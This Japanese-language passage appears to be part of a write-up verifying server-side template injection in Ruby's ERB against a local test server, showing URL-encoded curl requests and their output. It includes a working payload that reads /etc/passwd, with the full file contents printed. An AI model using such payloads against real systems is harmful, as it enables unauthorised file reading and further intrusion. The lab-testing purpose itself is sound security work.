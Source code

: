 　では、検証結果の詳細です。

### ERB テンプレートエンジン

#### パターン１: 簡単な演算

▼ インジェクションする文字列: 「`<%= 7 * 7 %>`」

<div class="md-code" style="width:100%">

```
# curl 'http://127.0.0.1:4567/erb?name=%3c%25%3d%20%37%20%2a%20%37%20%25%3e'
```

</div>

▼ 出力結果

<div class="md-code" style="width:100%">

```
hi 49
```

</div>

#### パターン２: 任意のファイルの読み込み

▼ インジェクション文字列: 「`<%= File.open('/etc/passwd').read %>`」

<div class="md-code" style="width:100%">

```
# curl 'http://127.0.0.1:4567/erb?name=%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%2f%65%74%63%2f%70%61%73%73%77%64%27%29%2e%72%65%61%64%20%25%3e'
```

</div>

▼ 出力結果

<div class="md-code" style="width:100%">

```
hi root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
